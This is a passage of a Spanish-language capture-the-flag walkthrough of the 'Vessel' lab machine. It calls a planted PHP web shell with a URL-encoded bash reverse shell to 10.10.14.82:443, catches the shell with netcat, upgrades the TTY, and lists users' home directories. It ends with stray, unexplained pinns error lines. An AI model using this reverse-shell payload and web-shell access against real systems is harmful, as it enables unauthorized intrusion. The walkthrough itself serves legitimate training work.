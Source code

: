 Introduzcamos nuestro tipico one liner de bash para ganar acceso:

`http://openwebanalytics.vessel.htb/owa-data/logs/myfile.php?cmd=bash+-c+%22bash+-i+%3E%26+/dev/tcp/10.10.14.82/443+0%3E%261%22`

{% highlight bash %}
❯ nc -lvnp 443
Connection from 10.10.11.178:59176
bash: cannot set terminal process group (1010): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vessel:/var/www/html/owa/owa-data/logs$ script /dev/null -c bash #Inicia un nuevo proceso
script /dev/null -c bash
Script started, file is /dev/null
www-data@vessel:/var/www/html/owa/owa-data/logs$ ^Z #CTRL+Z
[1]  + 21881 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 21881 continued  nc -lvnp 443
                                    reset xterm #Reiniciar la terminal
www-data@vessel:/var/www/html/owa/owa-data/logs$ export TERM=xterm #Establecer el tipo de terminal
www-data@vessel:/var/www/html/owa/owa-data/caches$ stty rows 37 columns 151 #Establecer filas y columnas de la tty
{% endhighlight %}

Husmeando el contenido de la maquina encontramos dos usuarios, y tenemos permisos de lectura en el directorio de uno:

{% highlight bash %}
www-data@vessel:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Aug 11  2022 .
drwxr-xr-x 19 root   root   4096 Aug 11  2022 ..
drwx------  5 ethan  ethan  4096 Aug 11  2022 ethan
drwxrwxr-x  3 steven steven 4096 Aug 11  2022 steven
{% endhighlight%}

En la carpeta personal de steven hay un archivo llamado passwordGenerator que es un ejecutable PE32 para Windows

{% highlight bash %}
www-data@vessel:/home/steven$ ls -la
total 33796
drwxrwxr-x 3 steven steven     4096 Aug 11  2022 .
drwxr-xr-x 4 root   root       4096 Aug 11  2022 ..
lrwxrwxrwx 1 root   root          9 Apr 18  2022 .bash_history -> /dev/null
-rw------- 1 steven steven      220 Apr 17  2022 .bash_logout
-rw------- 1 steven steven     3771 Apr 17  2022 .bashrc
drwxr-xr-x 2 ethan  steven     4096 Aug 11  2022 .notes
-rw------- 1 steven steven      807 Apr 17  2022 .profile
-rw-r--r-- 1 ethan  steven 34578147 May  4  2022 passwordGenerator
www-data@vessel:/home/steven$ file passwordGenerator
passwordGenerator: PE32 executable (console) Intel 80386, for MS Windows
{% endhighlight %}

También hay un directorio `.notes` que contiene un documento PDF y una imagen PNG, vamos a descargarnos esto


[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:w]: Failed to create ns file: No such file or directory